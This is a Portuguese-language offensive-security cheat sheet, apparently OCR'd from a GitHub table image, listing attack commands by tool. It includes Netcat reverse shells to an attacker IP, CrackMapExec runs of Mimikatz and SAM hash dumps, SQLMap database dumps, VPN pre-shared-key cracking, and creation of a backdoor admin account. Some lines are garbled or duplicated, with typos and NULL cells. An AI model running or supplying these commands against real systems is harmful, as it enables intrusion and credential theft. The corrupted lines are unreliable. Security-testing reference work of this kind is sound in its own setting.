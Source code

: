 | 52  | SQLMap         | Escaneia URL para injeção baseada em união + erro com backend MySQL e usa um user agent aleatório + dump de banco de dados | ` sqlmap -u "<form URL>?id=1>" --dbms=mysql --tech=U --random-agent --dump  ` |
| 26  | Enum4Linux     | Comando básico                                                     | `enum4linux -a <IP>`                                                     |
| 27  | SMBClient      | Conecta a um compartilhamento SMB                                  | `smbclinet //<IP>/<share> -U <username>`                                 |
| 28  | Netcat         | Conecta com shell (`-e` nem sempre funciona)                      | `nc -e /bin/sh <ATTACKING-IP> 80`                                        |
| 29  | Netcat         | Conecta com shell (`-e` nem sempre funciona)                      | `/bin/sh | nc ATTACKING-IP 80`                                           |
| 30  | Netcat         | Feito no alvo                                                      | `rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`             |
| 31  | SQLMap         | Verifica formulário para injeção SQL                               | `sqlmap -o -u "http://meh.com/form/" –forms`                             |
| 32  | SQLMap         | Varredura SQL automatizada                                         | `sqlmap -u <URL> --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3` |
| 33  | CrackMapExec   | Executa um módulo Mimikatz                                         | `crackmapexec smb <target(s)> -u <username> -p <password> --local-auth -M mimikatz` |
| 34  | CrackMapExec   | Execução de comando                                                | `crackmapexec smb <target(s)> -u ''<username>'' -p ''<password>'' -x whoami` |
| 35  | CrackMapExec   | Verifica usuários logados                                          | `crackmapexec smb <target(s)> -u ''<username>'' -p ''<password>'' --lusers` |
| 36  | CrackMapExec   | Faz dump de hashes SAM locais                                      | `crackmapexec <target(s)> -u ''<uesrname>'' -p ''<password>'' --local-auth --sam` |
| 37  | CrackMapExec   | Login de sessão nula                                               | `crackmapexec smb <target(s)> -u '''' -p ''''`                           |
| 38  | CrackMapExec   | Lista módulos                                                      | NULL                                                                     |
| 39  | CrackMapExec   | Passa o hash                                                       | NULL                                                                     |
| 41  | IKE-Scan       | Ataca chave pré-compartilhada com dicionário                       | `psk-crack -d </path/to/dictionary> <psk file>`                          |
| 42  | IKE-Scan       | Se encontrar um VPN SonicWALL usando modo agressivo, exigirá um ID de grupo, o ID de grupo padrão é GroupVPN | `ike-scan <IP> -A -id GroupVPN`                                          |
| 43  | IKE-Scan       | Para encontrar VPNs em modo agressivo e salvar para uso com psk-crack | `ike-scan <IP> -A -P<file out>`                                          |
| 44  | John the Ripper| Quebra senhas com regras KoreLogic                                 | ` for ruleset in  `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done` |
| 45  | Nmap           | Cria uma lista de endereços IP                                     | `nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt` |
| 46  | Linux commands | Monta compartilhamento NFS no Linux                                | `mount -t nfs server:/share /mnt/point`                                  |
| 47  | PowerShell     | Cria novo usuário                                                  | `net user <username> <password> /ADD`                                    |
| 48  | PowerShell     | Adiciona usuário a um grupo (geralmente Administradores)           | `net localgroup <group> <username> /ADD`                                 |
| 49  | PSK-Crack      | Força bruta com comprimento especificado e caracteres especificados (se deixado em branco, o padrão é 36) | `psk-crack -b <#> --charset="<charlist>" <key file>`                     |
| 50  | PSK-Crack      | Ataque de dicionário                                               | `psk-crack -d <file> <key file>`                                         |
| 51  | SQLMap         | Verifica formulário para injeção SQL                               | `sqlmap -o -u "<url of form>" --forms`                                   |
| 52  | SQLMap         | Escaneia URL para injeção baseada em união + erro com backend MySQL e usa um user agent aleatório + dump de banco de dados | ` sqlmap -u "<form URL>?id=1>" --dbms=mysql --tech=U --random-agent --dump  ` |

-----

## 💥 Tabela `Exploits` (Exploits e Escalação de Privilégios)
